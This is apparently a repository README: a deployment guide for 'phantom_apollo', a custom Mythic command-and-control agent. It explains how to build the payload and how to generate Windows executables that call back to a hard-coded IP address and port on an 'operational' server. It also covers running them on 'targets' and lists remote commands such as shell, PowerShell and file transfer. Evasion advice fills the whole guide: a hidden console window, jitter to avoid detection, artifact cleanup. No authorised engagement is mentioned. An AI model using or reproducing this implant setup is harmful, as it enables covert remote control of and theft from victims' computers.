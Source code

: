 # Phantom Apollo Deployment Guide

## Quick Deployment to Mythic Server

### 1. Upload to Mythic Server
Transfer the complete `phantom_apollo` folder to your Mythic server:

```bash
# On your Mythic server
cd /path/to/mythic/Payload_Types/
# Upload the phantom_apollo folder here
```

### 2. Build Container
```bash
cd Payload_Types/phantom_apollo
docker build -t phantom_apollo .
```

### 3. Register Payload
The payload will automatically register when Mythic starts. If already running:
```bash
# Restart Mythic services
./mythic-cli restart
```

### 4. Generate Payloads
1. Access Mythic web interface at `https://37.27.249.191:7443`
2. Navigate to Payload Generation
3. Select "phantom_apollo" 
4. Configure build parameters:
   - **Callback Host**: 37.27.249.191 (pre-configured)
   - **Callback Port**: 7443 (pre-configured)
   - **SSL**: Enabled (recommended)
   - **Callback Interval**: 10 seconds
   - **Debug Mode**: Enable for testing

5. Click "Generate Payload"
6. Download the compiled .exe file

### 5. Deploy to Targets
Execute the generated .exe on Windows targets. The agent will:
- Auto-connect to your Mythic server
- Register with GraphQL authentication
- Begin command polling immediately

## Available Commands

| Command | Usage | Description |
|---------|-------|-------------|
| `ls` | `ls {"path": "C:\\"}` | List directory contents |
| `cd` | `cd {"path": "C:\\Windows"}` | Change directory |
| `pwd` | `pwd` | Show current directory |
| `ps` | `ps` | List running processes |
| `whoami` | `whoami` | Show current user |
| `hostname` | `hostname` | Show system hostname |
| `shell` | `shell {"command": "dir"}` | Execute cmd command |
| `powershell` | `powershell {"command": "Get-Process"}` | Execute PowerShell |
| `download` | `download {"path": "C:\\file.txt"}` | Download file |
| `upload` | `upload {"file": "base64data", "remote_path": "C:\\uploaded.txt"}` | Upload file |
| `sleep` | `sleep {"seconds": "30"}` | Change callback interval |
| `exit` | `exit` | Terminate agent |

## Operational Security

### Stealth Features
- Console window automatically hidden on execution
- Configurable callback intervals with jitter
- Custom user agent strings
- TLS encryption for all communications

### Best Practices
- Use appropriate callback intervals for environment
- Enable jitter to avoid pattern detection
- Monitor for defensive responses
- Clean up artifacts after operations

## Troubleshooting

### Build Issues
- Ensure Go 1.21+ is installed in container
- Verify all template variables are properly replaced
- Check Docker build logs for specific errors

### Connection Problems
- Confirm Mythic server accessibility at 37.27.249.191:7443
- Verify TLS certificates are properly configured
- Check firewall rules allow HTTPS traffic
- Review GraphQL endpoint availability

### Command Execution
- Verify target system permissions for specific commands
- Check PowerShell execution policy for powershell commands
- Ensure file paths exist for download operations
- Validate base64 encoding for upload operations

## Advanced Configuration

### Custom Build Parameters
Modify build parameters in the Mythic interface:
- Callback intervals: Adjust for environment stealth requirements
- User agents: Use environment-appropriate browser strings
- Encryption keys: Set custom PSK for additional security

### Payload Variants
The build system automatically detects architecture:
- 64-bit Windows: `phantom_apollo_amd64.exe`
- 32-bit Windows: `phantom_apollo_386.exe`

## Server Status
- **Mythic Server**: https://37.27.249.191:7443
- **Status**: Operational
- **Authentication**: GraphQL with JWT tokens
- **Compatibility**: Mythic 3.x framework